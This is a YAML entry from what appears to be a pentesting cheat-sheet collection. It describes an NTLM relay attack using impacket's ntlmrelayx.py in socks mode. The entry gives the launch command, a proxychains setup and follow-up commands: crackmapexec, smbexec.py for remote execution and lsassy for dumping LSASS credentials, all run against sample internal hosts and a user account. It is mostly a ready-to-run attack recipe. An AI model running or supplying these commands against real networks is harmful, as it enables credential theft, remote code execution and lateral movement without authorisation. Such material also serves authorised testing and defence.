 ```yaml
---
title: |
  Start ntlmrelayx in socks mode to relay multiple SMB requests later on (multiple commands)
description: |
  This module performs the SMB Relay attacks originally discovered by cDc extended to many target protocols (SMB, MSSQL, LDAP, etc).
  It receives a list of targets and for every connection received it will choose the next target and try to relay the credentials. Also, if specified, it will first to try authenticate against the client connecting to us.

  Type socks to see the opened socks sessions:
  ntlmrelayx> socks

  Edit proxychains to your ntlmrelayx IP 
  /etc/proxychains.conf:
  [ProxyList]
  socks4 <yourIP> 1080

  now you can relay traffic through the socks proxy e.g:
  proxychains crackmapexec smb 10.1.0.73 -u ppaalm -p '' -d paragon
  proxychains smbexec.py -no-pass paragon/ppaalm@10.1.0.160
  proxychains lsassy 10.1.0.160 -u ppaalm -d paragon

  Command Reference:

  	-tf: targets file
command: |
  ntlmrelayx.py -tf targets.txt -socks -smb2support
items:
  - No_Creds
services:
  - SMB
  - LDAP
OS:
  - Linux
attack_types:
  - Enumeration
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
---
```


